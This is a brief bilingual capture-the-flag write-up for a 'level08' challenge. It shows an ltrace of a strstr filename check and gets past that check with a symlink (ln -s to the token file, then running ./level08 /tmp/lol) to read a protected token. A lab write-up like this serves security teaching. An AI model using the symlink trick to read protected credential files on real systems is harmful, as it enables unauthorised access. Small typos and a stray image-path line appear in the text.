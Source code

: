 ### English

The only protection to open the file is a strstr.
```
ltrace ./token lol
strstr("lol", "token")                                                                 = nil
```

So we have to send the same file name. For this we use symbolic links.
- `ln -s /home/user/levl08/token /tmp/lol'
- `./level08 /tmp/lol`

### Francais

La seul protection pour ouvrir le fichier est un strstr:
```
ltrace ./token lol
strstr("lol", "token")                                                                 = nil
```

Nous devons donc envoyer le meme nom de fichier. Pour ca nous utilisons les liens symbolique.
- `ln -s /home/user/levl08/token /tmp/lol'
- `./level08 /tmp/lol`